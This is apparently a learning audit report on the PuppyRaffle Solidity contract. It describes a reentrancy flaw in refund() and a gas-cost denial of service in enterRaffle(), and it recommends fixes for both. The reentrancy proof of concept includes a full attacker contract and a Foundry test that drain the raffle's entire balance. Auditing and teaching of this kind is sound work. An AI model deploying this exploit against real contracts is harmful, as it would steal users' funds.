

 


# Security Report for the PuppyRaffle CodeHawks FirstFlight Contest **learning*

**Source:** https://github.com/Cyfrin/2023-10-Puppy-Raffle

--------------------------------------------

### [H-1] Risk of Reentrancy in `PuppyRaffle::refund()` function

#### Description:
The `PuppyRaffle::refund()` can be re-entered because it does not follow the `CEI` (Checks-Effects-Interactions) pattern. Basically, interaction(s) with an external account is made before effects(state is updated).

<details>
<summary>Code</summary>

    ```solidity
        /// @param playerIndex the index of the player to refund. You can find it externally by calling `getActivePlayerIndex`
        /// @dev This function will allow there to be blank spots in the array
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            // checks 👇🏾
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            // interaction 👇🏾
            payable(msg.sender).sendValue(entranceFee);

            // effects (state updates) 👇🏾
            players[playerIndex] = address(0);

            emit RaffleRefunded(playerAddress);
        }
    ```

</details>

#### Impact:
If the caller of the `PuppyRaffle::refund()` function is a contract with a `receive()` function, then the `PuppyRaffle::refund()` function can be re-entered before the state is updated.

#### Proof of Concept:

Create a `Hunter` contract 👇🏾:

<details>
<summary>Hunter</summary>

    ```solidity
        // SPDX-License-Identifier: MIT
        pragma solidity ^0.7.6;

        import {PuppyRaffle} from "./PuppyRaffle.sol";

        contract Hunter {
            PuppyRaffle puppy;
            address hunter = address(this);

            constructor(PuppyRaffle _puppy) {
                puppy = _puppy;
            }

            function poach() public payable {
                require(msg.value == puppy.entranceFee());

                // create a dynamic array, and push the Hunter's address
                address[] memory players = new address[](1);
                players[0] = hunter; // address(this) is the address of this contract, which is the Hunter contract

                // enter raffle
                puppy.enterRaffle{value: msg.value}(players);

                // find index of the Hunter's address
                uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

                // refund hunter
                puppy.refund(hunterIndex);
            }

            receive() external payable {
                // find index of the Hunter's address
                uint256 hunterIndex = puppy.getActivePlayerIndex(hunter);

                if (address(puppy).balance >= 1e18) {
                    puppy.refund(hunterIndex);
                }
            }
        }

    ```

</details>

Modify `PuppyRaffleTest.t.sol` test contract 👇🏾:
  
<details>
<summary>PuppyRaffleTest</summary>

````diff
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.7.6;
    pragma experimental ABIEncoderV2;

    import {Test, console} from "forge-std/Test.sol";
    import {PuppyRaffle} from "../src/PuppyRaffle.sol";
+   import {Hunter} from "../src/Hunter.sol";

    contract PuppyRaffleTest is Test {
        PuppyRaffle puppyRaffle;
        uint256 entranceFee = 1e18;
        address playerOne = address(1);
        address playerTwo = address(2);
        address playerThree = address(3);
        address playerFour = address(4);
        address feeAddress = address(99);
        uint256 duration = 1 days;

+       Hunter hunter;

        function setUp() public {
            puppyRaffle = new PuppyRaffle(entranceFee, feeAddress, duration);
+           hunter = new Hunter(puppyRaffle);
        }
    }
````
</details>

Add the following test 👇🏾:

<details>
<summary>Code</summary>

    ```solidity
        function testHunterReentrancyAttackSuccessful() public {
            address[] memory players = new address[](5);
            players[0] = playerOne;
            players[1] = playerTwo;
            players[2] = playerThree;
            players[3] = playerFour;
            players[4] = address(hunter);
            puppyRaffle.enterRaffle{value: entranceFee * 5}(players);

            console.log(address(puppyRaffle).balance);
            assert(address(puppyRaffle).balance == 5e18);

            // attack logic
            uint256 hunterIndex = puppyRaffle.getActivePlayerIndex(address(hunter));
            // hunter attacks
            vm.prank(address(hunter));
            puppyRaffle.refund(hunterIndex);

            // assert PuppyRaffle's contract has been drained
            assert(address(puppyRaffle).balance == 0);
            // assert Hunter's balance has increased more than expected
            assert(address(hunter).balance == 5e18);
        }
    ```

</details>

#### Tools Used:

- Foundry
- Slither
- Manual Review
- Remix
- Chat GPT

#### Recommended Mitigation:

Re-arrange the `PuppyRaffle:refund()` fund to follow `CEI` pattern:

<details>
<summary>Code</summary>

    ```solidity
        function refund(uint256 playerIndex) public {
            address playerAddress = players[playerIndex];
            require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
            require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

            // Update state before sending Ether
            players[playerIndex] = address(0);

            // Now transfer the refund
            payable(msg.sender).sendValue(entranceFee);

            emit RaffleRefunded(playerAddress);
        }
    ```

</details>

Also the `nonReentrant` modifier from [OpenZeppelin `ReentrancyGuard`](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) could be used.

-----------------------------------------------------------------

### [M-1] Possible DoS attack due to loop through `players` array to check for duplicates in `PuppyRaffle::enterRaffle()` function, thus significant increase in gas costs for future entrants

#### Description:       
The `PuppyRaffle::enterRaffle()` conducts a duplicate address check whenever a new address wants to join the raffle, by looping through the `players` array. This method means that gas costs for performing that transaction (entering the raffle) are significantly cheaper for players who enter at the start of the raffle, and significantly costlier for players who enter the raffle at later stages. Every new player, is an extra `address` the `PuppyRaffle::enterRaffle()` function has to loop through when conducting duplicate address check.

 <details>
 <summary>Code</summary>

    ```solidity
    // Check for duplicates
        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        } // @question could there be gas issues that could lead to a DOS attack because of this for loop?
    ```

</details>

#### Impact:
The gas costs for entering the raffle increases distrubingly as more players enter the raffle. This could cause a rush from players wanting to be one of the first in queue, as well as discourage prospective future players.   
An attacker could make the `PuppyRaffle::entrants`array so large that no other player is able to enter, thus guaranteeing themselves the win.

#### Proof of Concept:
If there are two sets of players, each set being 500 players large, below is the estimated gas costs:
- First 500 players: ~110091567 gas
- Next 500 players: ~405906812 gas
  
  That is a nearly 4x increase in gas costs for the next 500 players.

  <details>
  <summary>PoC</summary>
  Place the following test into the `PuppyRaffleTest.t.sol` test contract
    
    ```solidity
        function testDOS() public {
            // address[] memory players = new address[](1);
            // players[0] = playerOne;
            // puppyRaffle.enterRaffle{value: entranceFee}(players);
            // assertEq(puppyRaffle.players(0), playerOne);

            vm.txGasPrice(1); // set gas price to 1
            // Let's enter 500 players
            uint256 totalPlayers = 500;
            address[] memory players = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                players[a] = address(a);
            }

            // gas calculations
            uint256 gasStart = gasleft();

            // enter raffle
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(players);

            // gas calculations
            uint256 gasEnd = gasleft();
            uint256 gasUsedForFirstFiveHundred = (gasStart - gasEnd) * tx.gasprice;
            console.log("The gas cost for the first 500 players is: ", gasUsedForFirstFiveHundred);

            // Let's enter extra 500 players
            // @note the higher the number of extra players you want to add, the more gas this test uses, and at a certain number(say 1000), the enterRaffle() function for the next set of players will fail with a out-of-gas error
            address[] memory playersExtra = new address[](totalPlayers);
            for (uint256 a = 0; a < totalPlayers; a++) {
                playersExtra[a] = address(a + totalPlayers);
                // @note -- the use of address(a + totalPlayers) is so that addresses start from 500+1 (501)
            }
            // gas calculations
            uint256 gasStartExtraPlayers = gasleft();

            // enter raffle for the extra 500 players
            puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(playersExtra);

            // gas calculations
            uint256 gasEndExtraPlayers = gasleft();
            uint256 gasUsedForNextFiveHundred = (gasStartExtraPlayers - gasEndExtraPlayers) * tx.gasprice;
            console.log("The gas cost for the extra 500 players is: ", gasUsedForNextFiveHundred);

            assert(gasUsedForFirstFiveHundred < gasUsedForNextFiveHundred);
        }
    ```

  </details>

#### Tools Used:
- Manual Review
- Foundry

#### Recommended Mitigation:
 Here are a few recommended mitigations:

- Consider using a `mapping` to check for duplicates. This will allow for constant time look up of whether a user has already entered the raffle.
- Consider allowing duplicate addresses. Especially since users can make new wallet addressess regardles, so a duplicate check doesn't prevent the same peron from entering multiple times, omly the same wallet address.
- Alternatively, [OpenZeppelin's `EnumerableSet` Library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet) could be used.
